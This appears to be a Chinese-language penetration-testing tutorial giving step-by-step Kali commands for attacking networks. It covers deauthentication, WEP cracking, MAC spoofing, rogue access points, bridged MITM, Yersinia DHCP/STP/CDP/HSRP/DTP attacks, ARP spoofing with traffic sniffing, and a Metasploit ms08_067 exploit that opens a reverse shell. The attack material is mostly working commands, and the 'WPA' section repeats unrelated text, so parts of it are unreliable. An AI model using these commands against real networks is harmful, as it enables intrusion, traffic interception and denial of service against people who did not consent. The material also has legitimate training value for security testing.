ifconfig wlan0 down          # 关闭无线网卡
iw reg set US                # 将国家设置为美国
iwconfig                     # 检查无线配置
iwconfig wlan0 txpower 27    # 将传输功率更改为 27 dBm（根据国家代码，最大传输功率有所不同）
iwconfig wlan0               # 检查无线接口配置
ifconfig wlan0 up            # 启动无线接口
```

一旦我们完成了上述所有步骤，我们就可以准备好启动第一个无线项目了。

# 发现隐藏其 SSID 的接入点 (AP)



当无线接入点配置好后，它可以设置为广播其 SSID（接入点名称）或隐藏它。由于我们知道其名称，对广播 ID 的接入点发起攻击是很容易的。然而，找到隐藏接入点的 ID 并不困难。要找到隐藏 AP 的 SSID，你需要遵循以下步骤：

- 使用 `airmon-ng` 命令启动无线监控。这将创建一个名为 `mon0` 的监控接口。
- 使用 `airodump-ng` 命令发现接入点 (APs)。
- 在此阶段，你可以等待客户端与隐藏的 AP 关联，此时它将显示 SSID。然而，这可能需要一些时间，你可以使用 `aireplay-ng` 来加速。
- 下述步骤展示了你如何找到隐藏 AP 的 SSID 名称：

```
airmon-ng start wlan0                    # 创建监控接口
airmon-ng                                # 显示并验证接口和启动的服务 (mon0 和 wlan0)
airodump-ng mon0                         # 启动监控接口 - 隐藏无线将显示为 <Length: 0>。一段时间后，当设备与其关联时，它将显示 SSID
airodump-ng -c 1 mon0                    # 这将只监听通道 1
# 要在不等待的情况下找到 SSID，请从上面的步骤复制 AP 的 MAC 地址并遵循以下步骤：
aireplay-ng -0 2 -a 00:1B:11:60:17:3F mon0  # 这基本上是一个去身份认证攻击 (Deauth attack) (-0 是去身份认证，2 表示两次)
```

- 在去身份认证攻击（Deauth attack）后，SSID 将出现在 `airodump-ng` 的输出中，因为客户端会尝试重新身份验证。

# 绕过无线 MAC 地址过滤


某些无线接入点可能有另一层安全防护，即 MAC 地址过滤。虽然设置这种过滤器是一个良好的做法，但破解它并不困难。

## 绕过 MAC 地址过滤需要遵循的步骤

- 如前一节所述，使用 `airmon-ng` & `airodump-ng` 命令发现 AP
- 使用 `airodump-ng` 命令找到已关联的客户端
- 使用 `macchanger` 借用 MAC 地址

## 上述步骤的命令

```
airmon-ng start wlan0
airodump-ng mon0
iwconfig wlan0 ssid Sneaky-SSID channel 4    # 与 Sneaky-SSID 关联
iwconfig wlan0                               # 检查关联是否成功，如果有 MAC 过滤将无法成功
airodump-ng -c 4 --bssid 00:1B:11:60:17:3F mon0  # 只显示通道 4 和 AP 的 bssid 以及关联客户端
# 上述命令的输出将显示与 AP 关联的站点 MAC 地址，你可以使用该 MAC 地址
airmon-ng stop wlan0
macchanger -m 58:55:CA:F2:6F:Af wlan0        # 替换 wlan0 的 MAC 地址
ifconfig wlan0 down
ifconfig wlan0 up
iwconfig wlan0 ssid Sneaky-SSID channel 4
```

# 破解 WEP 密码


WEP 密码是无线设备中最不安全的。遵循以下步骤破解 WEP 无线密码。

- `airmon-ng` -- 查找无线卡名称
- `airmon-ng stop [无线卡名称]`
- `airmon-ng start [无线卡名称]` -- 创建无线接口的监控
- `airmon-ng` -- 查看并检查更改
- `airodump-ng [监控接口]` -- 查找通道、bssid 和 essid
- 记录通道、bssid、essid 并运行 `airodump-ng [监控接口] -c [通道] --bssid [bssid] -w [文件名]`
- `airodump-ng [监控接口] -c [通道] --bssid [bssid] -e [essid] -w [文件名]`
- `aircrack-ng [文件名]` -- 破解密码
- 在去身份认证攻击后，SSID 将出现在 `airodump-ng` 的输出中，因为客户端会尝试重新身份验证。

# 破解 WPA


某些无线接入点可能有另一层安全防护，即 MAC 地址过滤。虽然设置这种过滤器是一个良好的做法，但破解它并不困难。

# 伪造接入点 (Rogue Access Point)


# 无线网络误关联攻击 (Mis-Association attacks)



误关联攻击技术是让计算机使用其以前连接过的某个旧无线网络连接到你的 Kali 机器。或者使用与当前可用且已连接客户端的网络相同的 SSID 名称。例如，如果某台计算机曾经连接过名为“Public-wifi”的 WIFI 网络，该名称将被发现并用于攻击该主机。

步骤如下：

- 使用 `airodump-ng` 找到受害者以前连接过的一个无线 SSID 名称
- 建立一个名称完全相同的新接入点（AP）
- 向受害者发送取消认证（de-auth）消息，使其断开当前的 AP 连接并尝试重新连接
- 由于你创建的 SSID 已经在受害者的列表中，它将连接到你创建的 AP
- 你可以开始捕获受害者的流量！

要实现这一点，需要遵循以下步骤：

- `airmon-ng start wlan0`
- `airodump-ng mon0` -- 你可以看到站点正尝试连接到它以前连接过的一个 AP 列表（probe 列） - 例如 Publicwifi
  - 注意：确保该 SSID 在当前 AP 列表中不可用
- `airbase-ng -essid "Public-wifi" -c 1 mon0` -- 这将 Kali 变成一个接入点，客户端可以认证并连接
- 根据前面的章节（流氓接入点）设置 DHCP 和其他设置
- 现在客户端站点将尝试连接到你的计算机，因为它的数据库中有一个相同的 SSID
- 如果客户端机器已连接到另一个 WIFI，则按下文启动取消认证攻击
- `aireplay-ng -0 0 -a 22:AF:3A:5E:22:3D mon0` -- 强制客户端重新认证并连接到我们的机器
- 监控 `airbase-ng` 命令的输出，查看受害者何时连接

# 使用桥接的无线网中间人攻击 (Wireless Man in the middle attack)



无线网络上的常见攻击之一是中间人（MIDM）攻击。要实现这一点，你需要将你的 Kali 设置为接入点，并将其网卡设置为桥接模式，这样客户端就不会察觉任何变化。一旦客户端连接到你的设备且你正常使用网络，就可以使用 Wireshark 这样的嗅探器来捕获其流量。

- 使用上述步骤通过 `airmon-ng`、`airodump-ng` 和 `airbase-ng` 创建 AP
- 实现此点的命令如下：

```
ifconfig                          # 验证硬件
# 在你的无线接口上设置接入点
airmon-ng start wlan0
airodump-ng mon0
airbase-ng -essid "Corporate-WIFI" -c 1 mon0

# 为 at0 和 eth0 之间建立桥接接口，命名为 BR1
ifconfig at0
brctl addbr BR1
brctl addif BR1 eth0
brctl addif BR1 at0
brctl show
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig BR1 192.168.1.205/24 up

# 测试并启用 IP 转发
ping 192.168.1.1
echo 1 >/proc/sys/net/ipv4/ip_forward
```

# Nmap - 免费安全扫描器


Nmap 是最好且最流行的扫描工具之一，可用于侦察步骤之后。它具有许多内置功能和插件，可识别网络或互联网上的漏洞主机和服务。

通过 `man nmap` 和 `nmap -h` 你可以熟悉它的选项和用法。

## 下面我们解释了一些使用 nmap 的示例

```
nmap 192.168.1.24                          # 扫描单个 IP 地址
nmap 192.168.1.0-255                       # 扫描范围 IP 地址范围
nmap 192.168.1.0/24                        # 扫描子网
nmap -sP -iP0                              # Ping 扫描
nmap -sS -PP0 -sV -O 192.168.1.0-50        # TCP Syn 扫描、协议扫描、确定版本、发现操作系统
nmap -T5 192.168.1.0/24                    # 激进程度 - T5 比 T1 快
nmap --top-ports 20 192.168.1.0/24         # 仅扫描前 20 个端口 - 热门端口
nmap -sT -p80 192.168.1.50-100             # TCP 扫描，仅 80 端口
nmap -sS 192.168.1.1-5 -D 192.168.98,192.168.1.99  # 将从你 D 之后指定的多个源 IP 地址发送扫描。这可以分散网络管理员的注意力，因为来自多个源有很多扫描
nmap -V 192.168.1.6                        # 详细模式将在屏幕上提供更多细节
nmap -F 192.168.1.0/24 --exclude 192.168.1.1,192.168.1.2  # -F 意味着仅扫描前 100 个端口，并从范围内排除这两个 IP 地址
nmap -Pn 192.168.1.6                       # 不进行 ping 而是直接扫描。没有此选项，它将先尝试 ping 宿主机
```


- `nmap --iflist` -- 获取接口和 IP 列表
- `nmap -A -T4 192.168.1.1` -- `-A` 表示执行脚本、带版本的 NMAP 操作系统检测、traceroute，`-T4` 用于计时
- 使用 IPv6 使用 Nmap
  - `ifconfig eth0 ipv6 add 2001:db8:6783:1::64`
  - `nmap -6 2001:db8:6783:1::1`
- Nmap 脚本
  - `nmap --script=default 192.168.1.24` -- 等同于 `nmap -sC 192.168.1.24`
  - 有许多脚本选项，如 DoS, Safe, exploit, malware, vulnerability, discovery 等
  - `nmap --script-help discovery` -- 这是脚本的帮助信息
  - `nmap --script "safe or default" 192.168.1.24` -- 同时运行默认和安全脚本
  - `nmap --script "discovery and" 192.168.1.24`
- Nmap GUI
  - 如果你喜欢使用，nmap 有图形界面。该图形界面被称为 zenmap。

## DHCP 饥饿攻击 (DHCP Starvation)



在大多数企业网络中有 DHCP 服务器为客户端提供 IP 地址。DHCP 饥饿基本上是一种 DoS 攻击，攻击者向 DHCP 服务器发送无限请求，直到填满池并阻止用户访问网络上的任何内容。

- 用于此攻击的工具是 Yersinia
- `yersinia -G` -- yersinia 的图形界面
- 选择 DHCP 并启动攻击
- 选择 “Sending DISCOVER Packet” 并启动攻击
- 这将开始请求 IP 地址直到填满池



## 成为生成树根节点 (Become the Root of Spanning Tree)



生成树协议 (STP) 是一种网络协议，确保任何桥接以太网局域网的无环拓扑。STP 的基本功能是防止桥接环路及其产生的广播风。

生成树根桥是桥 ID 最小（最低）的桥，它是网络的焦点。生成树的根桥是桥 ID 最小的桥。每个桥都有一个可配置的优先级数字和一个 MAC 地址；桥 ID 包含这两个数字 - 桥优先级 + MAC (32768.0200.0000.1111)。

通过这种攻击，我们可以接管桥接职责并破坏网络运行。

- 用于此攻击的工具是 Yersinia
- 一种方案是在交换机之间有一个设备（可能是集线器），并将 Kali 连接到该设备
- 第二种方案如果 Kali 有两个接口并分别连接到一个交换机，并启动 STP+中间人攻击，这样 Kali 将成为根节点
- 然后我们可以将设备宣告为 STP 根
- `yersinia -G` -- yersinia 的图形界面
- 选择 STP 并启动攻击
- 选择 “Claiming Root Role” 并启动攻击



## CDP 泛洪攻击 (DoS)



思科发现协议 (CDP) 是由思科开发的一种专有数据链路层协议。它用于共享与其他直接连接的思科设备的信息，例如操作系统版本和 IP 地址。

在此类攻击中，我们可以向相邻网络设备发送大量的 CDP 数据包并中断其运行。

此类攻击将使用 yersinia。要进行测试：

- 首先在交换机上清除 CDP 计数器和数据表，并显示 CDP 流量和邻居设备 - 这只是为了查看网络设备上的变化，此可选
- 运行 `yersinia -G`
- 启动攻击并选择 CDP
- 选择 "Flooding CDP table" 将向交换机发送大量的 CDP 数据包
- 现在检查交换机上的 CDP 流量和邻居表
- 你可以看到交换机上有很多 CDP 邻居关系



## HSRP DoS 攻击



热备备路由协议 (HSRP) 是思科的一种专有冗余协议，用于建立容错的默认网关。

通过 HSRP，你可以拥有多个网络设备，并仅向客户端表示一个 IP 地址，因此如果一个设备故障，另一个将接管该角色。

通过这种攻击，我们可以让 Kali 加入 HSRP 集群并成为活动路由器。一旦完成，所有客户端流量都将发送到 Kali 而不是路由器。攻击者可以实现“中间人”攻击或 DoS 攻击，并导致客户端连接中断。

按照以下步骤进行 HSRP 攻击。

- `yersinia -G`
- 启动攻击，选择 HSRP 并选择成为活动路由器

注意：通过 HSRP 认证可以防止此类攻击。



## 使用 DTP 将 Access 端口转换为 802.1q Trunk 端口



Access 端口（接入端口）用于连接终端客户端计算机、打印机、服务器等的端口。它们只能参与一个 VLAN。

Trunk 端口（中干端口）用于多个网络设备之间通信的端口，可以携带多个 VLAN。

网络交换机默认会协商端口成为中干端口的可能性 (DTP)。这种攻击可以利用交换机的这种默认行为来访问基础设施上的其他 VLAN 和网络（除非交换机上的默认配置已更改）。

- 运行 `yersinia -G`
- 通过 DTP 标签页查看交换机的 DTP 状态
- 启动攻击并选择启用中干 (enable trunking)
- 802.1Q 标签页将显示中干流量
- 使用 Wireshark 查看流量
- 现在你可以为 802.1q 标记设置回溯接口
  - `modprobe 8021q`
  - `vconfig add eth0 20` -- 为 eth0 创建 VLAN 20 子接口
  - `ifconfig eth0.20 up`
  - `ifconfig eth0.20 20.0.0.99/24`
- 现在你就可以访问 VLAN 20 并开始攻击其他主机



## ARP 欺骗与 MITM (中间人攻击)



ARP 欺骗是一种攻击者向局域网发送伪造的（被欺骗的”）地址解析协议 (ARP) 消息的技术。通常，目标是将攻击者的 MAC 地址与另一个主机（如默认网关）的 IP 地址关联，导致旨在发往该 IP 地址的流量被发送给攻击者。

ARP 欺骗可能允许攻击者在局域网上拦截数据帧、修改流量或完全停止流量。这种常用的攻击通常是其他攻击的开端，例如拒绝服务、中间人攻击或会话劫持攻击。

- 通过以下步骤，Kali 将位于 10.0.0.2（客户端）和 10.0.0.1（防火墙/路由器/交换机）之间
- `nmap -F 10.0.0.0/24` -- 查找网络上的设备及其 MAC 地址和详细信息
- `echo 1 >/proc/sys/net/ipv4/ip_forward` -- 启用 IP 转发
- `arpspoof -i eth0 -t 10.0.0.2 10.0.0.1` -- 这告诉 10.0.0.2 Kali 是 10.0.0.1
- `arpspoof -i eth0 -t 10.0.0.1 10.0.0.2` -- 这告诉 10.0.0.1 Kali 是 10.0.0.2
- 运行上述命令后，你可以在防火墙/网关上验证这一点
- 现在我们可以使用嗅探器或以下工具监控流量
- `driftnet -i eth0` -- 这将打开一个窗口并显示受害者浏览的网站内容
- `urlsnarf -i eth0` -- 这将显示受害者正在浏览的 URL
- 一旦取消 arpspoof 命令，将通过向网关和受害者发送 ARP 表来恢复原始 ARP 表！

## Metasploit Framework


Metasploit 项目是一个开源项目，为研究安全漏洞和开发代码提供公共资源，这些代码允许网络管理员进入自己的网络以识别安全风险，并记录需要优先处理哪些漏洞。

Metasploit 项目提供了渗透测试（pen testing）软件，并提供了自动化比较程序漏洞与其修复（补丁后）版本之间的工具。它还提供了反取证和高级规避工具，其中一些已内置在 Metasploit 框架中。

使用该框架利用系统的基本步骤包括：

1. 选择并配置漏洞利用（利用其某一个漏洞进入目标系统的代码；包含了针对 Windows、Unix/Linux 和 Mac OS 系统的约 900 种漏洞利用）
2. 可选检查预定目标系统是否易受所选漏洞利用的影响
3. 选择并配置有效载荷（在成功进入后在目标系统上执行的代码；例如，远程 shell 或 VNC 服务器）
4. 选择编码技术，以防内入防御系统 (IPS) 忽略编码后的有效载荷
5. 执行漏洞利用

该框架可以使用命令行或 GUI 界面使用。按照以下步骤安装/更新 Metasploit（如果需要）。

- `hosts` -- 将显示已发现的主机
- `services` -- 将显示主机内部发现的服务

要使用漏洞利用攻击主机，你需要找到该漏洞的模块并将其加载到 Metasploit 中。然后，你可以设置选项并启动攻击。按照以下步骤对主机发起 netapi 漏洞攻击。在本示例中，远程主机的 IP 地址为 10.0.0.2，本地主机（Kali）。在 Metasploit 控制台上，`search` 命令将在数据库（漏洞、利用程序等）中进行搜索。

- `search -h` -- 获取 search 命令的可用选项列表
- `search netapi` -- 搜索与 netapi 相关的漏洞并返回路径
- `use exploit/windows/smb/ms08_067_netapi` -- 使用上述命令找到的路径
- `show payloads` -- 将列出该模块可以使用的所有载荷（payloads）
- `set payload windows/shell/reverse_tcp` -- 使用你需要的载荷。在本示例中，reverse_tcp 将向我们的 Kali 机器发起回连 TCP 连接
- `show options`
- `set RHOSTS 10.0.0.2`
- `set LHOSTS 10.0.0.4`
- `show options`
- `exploit` -- 这启动攻击并为你提供受害者主机的 shell 访问权限（如果主机存在漏洞）

上述所有步骤也可以通过 Armitage（GUI 界面）完成。

要使用 Armitage 设置相同的攻击，你需要先运行 Armitage。从 "Hosts" 菜单中，你可以选择 `db_nmap` 扫描选项，它将扫描网络并在 msf 控制台上提供所有主机的列表。

